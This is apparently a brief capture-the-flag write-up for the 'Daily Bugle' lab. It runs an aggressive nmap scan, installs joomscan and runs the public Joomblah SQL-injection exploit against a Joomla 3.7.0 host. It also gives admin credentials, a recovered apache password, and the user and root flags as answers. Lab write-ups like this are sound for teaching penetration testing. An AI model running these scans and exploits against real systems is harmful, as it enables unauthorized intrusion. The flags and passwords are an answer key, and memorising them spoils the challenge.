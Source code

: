 # Daily Bugle

nmap scan
```
nmap -A -Pn -T5 10.10.246.202 -oN service-version.txt
```
joomscan install
```
git clone https://github.com/rezasp/joomscan.git                  
cd joomscan
perl joomscan.pl

```
joomblah.py download
```
https://github.com/XiphosResearch/exploits/blob/master/Joomblah/joomblah.py
```
run the joomblah.py
```
python3 joomblah.py http://10.10.246.202

```
## Deploy
| Questions | Answers |
|-----------|---------|
| Access the web server, who robbed the bank ? | spiderman |

## Obtain user and root

login to `http://10.10.246.202/administrator/` with `jonah:spiderman123`


found password for apache : nv5uz9r3ZEDzVjNu
| Questions | Answers |
|-----------|---------|
| What is the joomla version? | 3.7.0 |
| What is Jonah's cracked password ? | spiderman123 |
| What is the user flag? | 27a260fe3cba712cfdedb1c86d80442e |
| What is the root flag? | eec3d53292b1821868266858d7fa6f79 |


